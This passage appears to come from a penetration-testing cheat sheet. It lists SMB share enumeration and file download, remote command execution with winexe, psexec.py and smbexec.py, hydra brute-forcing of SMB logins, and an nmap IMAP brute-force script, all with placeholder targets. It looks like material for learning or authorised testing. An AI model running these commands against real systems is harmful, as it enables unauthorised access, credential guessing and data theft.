If any of the permissions DO NOT say "NO ACCESS", attempt to list out the contents of the remote share
```
smbmap -R <SHARE> -H <IP_ADDRESS> -u <USERNAME> -p <PASSWORD>
smbmap -R <SHARE> -H <IP_ADDRESS> -u <USERNAME> -p ""
```

From the ouput, grab a directory or file of interest that you have full access to:
```
#directory
smbget -R smb:'//<IP_ADDRESS>/<SHARE>/PATH/TO/DIRECTORY' -U "<USERNAME>%<PASSWORD>"

#file
smbget smb:'//<IP_ADDRESS>/<SHARE>/PATH/TO/FILE' -U "<USERNAME>%<PASSWORD>"
```

Connect to SMB share with a limited shell:
```
smbclient //<IP_ADDRESS>/<SHARE> -U <USERNAME>

#Shell commands
help
ls
get
put
cd
```

Connect using winexe with credentials:
```
winexe -U <USERNAME>%<PASSWORD> //<IP_ADDRESS> "cmd.exe
python psexec.py <USERNAME>:<PASSWORD>@<IP_ADDRESS>
python smbexec.py <USERNAME>:<PASSWORD>@<IP_ADDRESS>
```

#### Impacket Scripts

Brute force smb login:
```
hydra -f -V -t 1 -l <USERNAME> -P /usr/share/wordlists/rockyou.txt <IP_ADDRESS> smb
```

### Port 143 - IMAP

Nmap scripts:
```
nmap -Pn -p 143 --script=imap-brute <IP_ADDRESS>
```

<br />

## Port 161/162 (UDP) - Simple Network Managment Protocol (SNMP)
[SNMP](https://www.greycampus.com/opencampus/ethical-hacking/snmp-enumeration#:~:text=LDAP%20Enumeration-,SNMP%20Enumeration,devices%20on%20an%20IP%20network.&text=SNMP%20enumeration%20is%20used%20to,devices%20on%20a%20target%20system.)  is an application layer protocol which uses UDP protocol to maintain and manage routers, hubs and switches other network devices on an IP network.
